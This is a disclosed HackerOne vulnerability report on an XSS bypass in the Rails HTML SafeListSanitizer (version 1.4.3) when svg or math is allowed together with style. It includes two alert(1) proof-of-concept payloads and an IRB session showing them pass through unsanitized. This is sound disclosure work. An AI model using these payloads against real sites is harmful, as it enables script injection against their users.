 # Rails::Html::SafeListSanitizer vulnerable to XSS when certain tags are allowed (math+style || svg+style)

## Report Details
- **Report ID**: 1656627
- **URL**: https://hackerone.com/reports/1656627
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-01T21:28:55.174Z
- **Disclosed**: 2022-12-14T22:41:10.444Z

## Reporter
- **Username**: 0b5cur17y
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
## Intro

The Rails HTML sanitzier allows to set certain combinations of tags in it's allow list that are not properly handled. 
Similar to the report [1530898](https://hackerone.com/reports/1530898), which identified the combination`select` and `style` as vulnerable,
my fuzz testing from today suggests that also `svg` and `style` as well as `math` and `style` allow XSS.
The following are PoCs for each of these allow list:
- `svg` and `style`: `<svg><style><script>alert(1)</script></style></svg>`
- `math` and `style`: `<math><style><img src=x onerror=alert(1)></style></math>`

See the following IRB session: 
```
irb(main):016:0> require 'rails-html-sanitizer'
=> false
irb(main):017:0> Rails::Html::SafeListSanitizer.new.sanitize("<svg><style><script>alert(1)</script></style></svg>", tags: ["svg", "style"]).to_s
=> "<svg><style><script>alert(1)</script></style></svg>"
irb(main):018:0> Rails::Html::SafeListSanitizer.new.sanitize("<math><style><img src=x onerror=alert(1)></style></math>", tags: ["math", "style"]).to_s
=> "<math><style><img src=x onerror=alert(1)></style></math>"
irb(main):019:0> puts Rails::Html::Sanitizer::VERSION
1.4.3
=> nil 
```
